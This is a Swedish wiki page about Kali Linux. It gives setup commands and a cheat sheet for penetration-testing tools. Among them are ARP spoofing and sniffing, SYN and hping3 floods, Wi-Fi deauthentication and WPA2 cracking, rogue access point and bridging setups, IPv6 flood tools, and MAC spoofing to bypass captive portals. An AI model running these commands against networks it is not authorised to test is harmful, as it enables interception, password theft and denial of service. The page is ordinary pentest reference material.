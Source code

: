 ```yaml
---
title: Kali Linux
permalink: /Kali_Linux/
---
```


[Category:Distar](/Category:Distar "wikilink") Kali Linux är en
Debian-baserad Linuxdistribution avsedd för digitala penetrationstester
och etisk hacking. Kali är uppföljaren till BackTrack.

<https://www.kali.org/>

Grundsetup
==========

**IP**

`ifconfig eth0 10.0.0.5/24 up`
`route add default gw 10.0.0.1`
`echo nameserver 8.8.8.8 > /etc/resolv.conf`

**SSH-server**

`start networking`
`sshd-generate`
`start ssh`
`update-rc.d -f ssh defaults`

Docker
------

Et snabbt sätt att komma igång med Kali är med docker.

`docker pull kalilinux/kali-linux-docker`
`docker run -t -i kalilinux/kali-linux-docker /bin/bash`
`root@aaca1ac4f5b5:/# ping 8.8.8.8`

Verktyg
=======

Kali är utrustat med väldigt många verktyg. Här listas några och vad de
används till.

**[Nmap](/Nmap "wikilink")**
Security Scanner

**Yersinia**
Attacker mot det mesta som har med nätverk att göra, inkl DHCP, STP,
CDP, DTP, HSRP, VTP, 802.1q, 802.1x. Startas med:

`yersinia -G`

**ARPSpoof**

`echo 1 > /proc/sys/net/ipv4/ip_forward`
`arpsoof -i eth0 -t 10.0.0.15 10.0.0.1`
`arpsoof -i eth0 -t 10.0.0.1 10.0.0.15`

Samla sedan data

`driftnet -i eth0`
`urlsnarf -i eth0`

**TCP Synflood**

`use auxiliary/dos/tcp/synflood`
`set RHOST 192.168.1.1`
`set SHOST 10.0.0.50`
`run`

**Hydra**
Password cracker

**Maltego**
Gather information about ip addresses and domains

**[Metasploit](/Metasploit "wikilink")**
Vulnerability testing

**Burp Suite**
Proxy/Spider

**[Scapy](/Scapy "wikilink")**
Packet Manipulation Tool

**Hping3** - TCP Ping

`hping3 -S 10.10.10.10 -a 10.10.10.12 -p 22 --flood`

**Parasite6** - IPv6 MITM

`echo 1 > /proc/sys/net/ipv6/conf/all/forwarding`
`parasite6 -lR eth0`

Wireless
========

Börja med att konfa svenska inställningar

`iw reg set SE`
`iwconfig wlan0 txpower 27`

**Uncovering Hidden SSID**

`airmon-ng start wlan0`
`airodump-ng mon0`
`airodump-ng -c 11 mon0`
`aireplay-ng -0 2 -a [BSSID] mon0`

`iwconfig wlan0 essid [ESSID] channel 11`
`macchanger -m [MAC address] wlan0`

**WPA2**

`airmon-ng start wlan0`
`airodump-ng -w OURFILE -c 11 --bssid [BSSID] mon0`
`aireplay-ng -0 2 -a [BSSID] mon0`
`aircrack-ng OURFILE-01.cap -w /pentest/passwords/wordlists/darkc0de.lst`

`wpaclean <out.cap> <in.cap>`

with crunch:

`crunch x X "characters" | aircrack-ng ".cap file" -w - -e "essid"`

with john the ripper:

`john -stdout -incremental:all | aircrack-ng ".cap file" -w - -e "essid"`

**Rogue AP**

`apt-get install dhcp3-server -y`
`mv /etc/dhcp3/dhcpd.conf /etc/dhcp3/dhcpd.conf.bak`
`nano /etc/dhcp3/dhcpd.conf`
` ddns-update-style ad-hoc;`
` default-lease-time 600;`
` max-lease-time 7200;`
` subnet 192.168.1.0 netmask 255.255.255.0 {`
` option subnet-mask 255.255.255.0;`
` option broadcast-address 192.168.1.255;`
` option routers 192.168.1.1;`
` option domain-name-servers 192.168.1.1;`
` range 192.168.1.10 192.168.1.100;`
`} `

`airmon-ng start wlan0`
`airodump-ng mon0`
`airbase-ng --essid "Hitlerklubben" -c 11 mon0`
`ifconfig at0 192.168.1.1/24 up`
`route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1`
`dhcpd3 -cf /etc/dhcp3/dhcpd.conf -pf /var/run/dhcp3-server/dhcpd.pid at0`
`/etc/init.d/dhcp3-server start`
`iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE`
`iptables --append FORWARD --in-interface at0 -j ACCEPT`
`echo 1 > /proc/sys/net/ipv4/ip_forward`

**Bridging**

`airmon-ng start wlan0`
`airodump-ng mon0`
`airbase-ng --essid "Hitlerklubben" -c 11 mon0`
`ifconfig at0`
`brctl addbr BR1`
`brctl addif BR1 eth0`
`brctl addif BR1 at0`
`brctl show`
`ifconfig eth0 0.0.0.0 up`
`ifconfig at0 0.0.0.0 up`
`ifconfig BR1 192.168.1.50/24 up`
`echo 1 > /proc/sys/net/ipv4/ip_forward`

IPv6
====

Med IPv6 finns det mycket att tänka på och testa.

`fake_router6 eth0 2001::/64`
`detect-new-ip6 eth0`
`dos-new-ip6 eth0`
`flood_router6 eth0`
`flood_advertise6 eth0`
`implementation6 eth0 2001::1`
`smurf6 eth0 2001::1`

Captive portal
==============

Många företag tex hotel använder en captive portal för att kontrollera
vilka som använder deras trådlösa nätverk.

Många portaler filtrerar på MAC så om man hittar en som fungerar via en
ipscan så räcker det för att komma åt internet.